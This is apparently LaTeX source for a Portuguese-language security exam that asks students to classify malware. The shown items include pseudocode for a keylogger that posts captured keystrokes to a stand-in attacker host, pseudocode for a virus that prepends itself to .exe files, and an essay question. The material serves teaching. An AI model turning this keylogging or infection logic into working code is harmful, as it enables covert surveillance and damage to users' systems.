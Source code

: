 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}
LOOP_INFINITO:
    teclas <- CAPTURAR_PRESSOES_TECLADO()
    SE TAMANHO(teclas) > 100 caracteres:
        DUMP <- COMPACTAR(teclas)
        POST_HTTP("http://servidor-atacker.xyz/logs", DUMP)
    FIM SE
    AGUARDAR(5 segundos)
FIM LOOP
\end{lstlisting}

Este malware, focado em monitorar e coletar dados silenciosamente, é um:
\begin{enumerate}[label=(\Alph*)]
    \item Vírus
    \item Worm
    \item Trojan
    \item Ransomware
    \item Spyware
\end{enumerate}

\vspace{0.5cm}

\noindent \textbf{5.} Analise a função de infecção local:

\begin{lstlisting}
FUNCAO infectar_sistema()
    lista_exes <- LISTAR_ARQUIVOS_DIRETORIO_ATUAL("*.exe")
    PARA CADA exe EM lista_exes:
        SE NAO_ESTA_INFECTADO(exe):
            MEU_CODIGO <- LER_BYTES(ESTE_ARQUIVO, inicio=0, fim=1024)
            INSERIR_NO_INICIO(exe, MEU_CODIGO)
        FIM SE
    FIM PARA
FIM FUNCAO
\end{lstlisting}

Ao necessitar anexar-se a arquivos hospedeiros legítimos para sua propagação, classificamos como:
\begin{enumerate}[label=(\Alph*)]
    \item Vírus
    \item Worm
    \item Trojan
    \item Ransomware
    \item Spyware
\end{enumerate}

\vspace{0.5cm}

\noindent \textbf{6.} Explique a mudança de paradigma na engenharia de software ocorrida na década de 1990 em relação à década de 1980. Por que a conectividade global tornou a segurança um requisito fundamental e não mais um "recurso extra"?
\begin{resposta}{4cm}
\end{resposta}
\end{document}
